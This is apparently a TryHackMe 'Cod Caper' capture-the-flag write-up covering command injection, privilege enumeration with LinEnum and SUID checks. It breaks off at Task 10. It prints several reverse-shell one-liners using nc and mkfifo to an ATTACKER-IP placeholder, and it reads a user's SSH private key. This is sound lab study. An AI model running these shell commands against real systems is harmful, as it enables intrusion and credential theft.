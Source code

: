 ```yaml
---
title: THM The Cop Caper
date: 2021-01-13 22:50:00 +0000
categories: [Security, TryHackMe]
tags: [thm, codcapper, writeup]     # TAG names should always be lowercase
---
```


Task 5: Command Execution
We got access to a web page where we can run some linux command and receive the result directly in our webpage.
Try basic stuf like pwd or ls give us some result.
ls -l | wc -l to have the number of files inside current directory.

Checking /etc/passwd we found a user named pingu.

Did not succeed to have a stable shell with netcat (nc -e /bin/sh <ip> <port> or even more complicated with something like rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f)
Success to have a reverse shell with
mkfifo /tmp/lol;nc ATTACKER-IP PORT 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol



find / -user pingu
we found the path to the ssh rsa key (cat /home/pingu/.ssh/id_rsa)
Did not succeed to hack the RSA passphrase

After some research inside the box, we found an interresting folder in /var. Password of pingu is inside.

Task 6: LinEnum
Choose a metod to send LinEnum.sh file into the target system (SCP or setup a simpleHTTPServer inside your own attack machine).
Then, upgrade the permission with chmod +x LinEnum.sh and then execute LinEnum.sh and, as specified inside the room, check the SUID files analysis result. You will easily found the requested one.

Try to execute this file without success. It seems that the file is waiting for an entry. Let's continue the room.

Task 7: pwndbg
Nothing to do, just follow the room description and do it to understand

Task 8: Binary-Exploitation: Manually
Nothing to do, just follow the room description and do it to understand

Task 9: Binary-Exploitation: The pwntools way
Nothing to do, just follow the room description and do it to understand

Task 10: Finishing the job


